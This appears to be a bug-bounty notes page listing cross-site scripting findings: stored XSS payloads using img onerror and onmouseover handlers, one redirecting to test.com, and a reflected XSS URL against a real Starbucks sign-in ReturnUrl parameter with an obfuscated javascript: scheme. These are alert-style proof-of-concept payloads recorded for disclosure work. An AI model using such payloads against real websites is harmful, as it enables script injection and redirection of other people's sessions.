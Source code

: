 # XSS Reports 
## stored xss
 payload: ```"><img src=x onerror=alert(document.domain)>```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/b1a860c0-abd6-4a98-949e-dd723f4488aa)

## stored xss
payload : 

```<input><img src=a onmouseover=window.location.href='https://www.test.com'>```

```<img src=x onmouseover=alert('XSS-Stored')>``` 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/fafd92e1-16f9-45d7-9a9b-946612ebb044)


## Reflected Cross site Scripting (XSS) on www.starbucks.com
url :  https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529

payload : ```Javascript:https://www.starbucks.com/alert(document.domain)```

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/b9685bba-070b-4d24-8910-20bf91d122d2)

